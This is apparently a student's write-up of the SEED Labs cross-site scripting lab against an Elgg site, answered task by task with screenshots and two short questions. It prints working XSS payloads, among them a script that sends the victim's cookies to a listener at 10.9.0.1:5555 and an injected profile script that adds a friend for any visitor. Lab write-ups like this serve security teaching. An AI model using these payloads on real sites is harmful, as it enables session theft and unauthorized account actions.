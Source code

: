# SEED Labs – Cross-Site Scripting Attack Lab
## Semana 10 e 11

### Task 1
#### Posting a Malicious Message to Display an Alert Window

This task consists in writing the following JavaScript in the 'Brief Description' in Alice's profile: <script>alert('XSS  ');</script>

![task1(1)](https://user-images.githubusercontent.com/116459746/235372633-efc9b388-04bb-4e6f-8bc1-e7fbd0e910d0.png)

When we save the profile, we recieve an alert window with the word "XSS", the one we wrote in the alert message of the Javascript.

![task1(2)](https://user-images.githubusercontent.com/116459746/235372638-28350a73-6357-4b11-a7c9-f6be70b34b89.png)

### Task 2
#### Posting a Malicious Message to Display Cookies

This task consists in writing the following JavaScript in the 'Brief Description' in Alice's profile: <script>alert(document.cookie);</script>

![task2(1)](https://user-images.githubusercontent.com/116459746/235372647-009dd0a7-887c-4142-adf4-bdd129c4f695.png)

When we save the profile, we recieve an alert window. As we can see from HTTP Header Live, the alert window display the current cookies in use.

![task2(2)](https://user-images.githubusercontent.com/116459746/235372652-235877f9-c4ca-4b8c-825c-5fce2052573c.png)

### Task 3
#### Stealing Cookies from the Victim's Machine

The first step in this task is running the following code in the terminal.

![task3(start)](https://user-images.githubusercontent.com/116459746/235383869-652767ab-beb8-49f6-a3dd-729f434d23a5.png)

Next, we write the following JavaScript in the 'Brief Description' in Alice's profile: "<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>"

![task3(1)](https://user-images.githubusercontent.com/116459746/235383928-f91ddf87-d68e-45b6-80f4-03295069b1f4.png)

As we save the Alice's profile with that message in the 'Brief Description', the code we put on running in the beginning print us Alice's cookies in the terminal.

![task3(2)](https://user-images.githubusercontent.com/116459746/235383931-540e2358-b5d4-4d1b-ae87-df228474e901.png)

### Task 4
#### Becoming the Victim’s Friend

After logging in Alice's profile, we follow the next steps: Members - Samy - Add Friend

![task4(1)](https://user-images.githubusercontent.com/116459746/235384268-a841aaf1-e08a-4d1c-a139-1def09886dd8.png)

As we can see from HTTP Header Live, the friend's value is 59, so we understand that Samy's guid is 59.
Also, we know that the first site HTTP Header Live give us is called sendurl, the field we have to complete: var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token;

We remove Samy as a friend in Alice's profile and Alice doesn't have any friends now.

Then, we go to Samy's profile and in the 'Brief Description' on his profile we write the following message, completing it with var sendurl field: 

![task4(5)](https://user-images.githubusercontent.com/116459746/235469434-aac28539-fc56-4d3f-80b9-02b489f8b727.png)

![task4(2)](https://user-images.githubusercontent.com/116459746/235464804-d3e01857-95eb-4338-870f-41143ce5a36c.png)

We save the Samy's new profile and we go to Alice's profile again.

First, we confirm that Alice has no friends at the moment.

![task4(3)](https://user-images.githubusercontent.com/116459746/235466582-4d4a40e4-d907-4560-bf2f-bf0f25d03f95.png)

And only by visiting Samy's profile, Alice is friend with Samy again without even adding it as a friend.

![task4(4)](https://user-images.githubusercontent.com/116459746/235465669-ce0cf10a-7823-44d0-8cfd-58f605f0d1b2.png)

### Question 1
#### Explain the purpose of Lines 1 and 2, why are they needed?
They are refering to the JavaScript code we have to complete:
![task4(5)](https://user-images.githubusercontent.com/116459746/235469154-8cd8519e-8f13-4a8d-abcb-c4eba8bc2383.png)

Line 1 represents a timestamp used for security matters, such like prevent CSRF(Cross-Site Request Forgery) attacks.
Line 2 represents a unique token, a database or information about autentication, autorization and security in a computer system. It is used to autenticate the actual user and prevent from other unauthorized users or unauthorized systems get to confidential information or resources.
Both lines represents a URL (Uniform Resource Locator) including timestamp and a token as consulting parameters, used to make server requests, ensuring the authenticity and integrity of the request.
If the attacker doesn't have both timestamp value and the secret token of the website in his request, the computer will consider it not legit and it will me thrown out an error.

### Question 2
#### If the Elgg application only provide the Editor mode for the "About Me" field, i.e.,you cannot switch to the Text mode, can you still launch a successful attack?
If we couldn't change it to Text mode, we couldn't launch a successful attack because Editor mode encode special characters that are display in the input.
As we need to use <script>@</script> to execute JavaScript code, we wouldn't be able to do it because special characters would be data encoded.
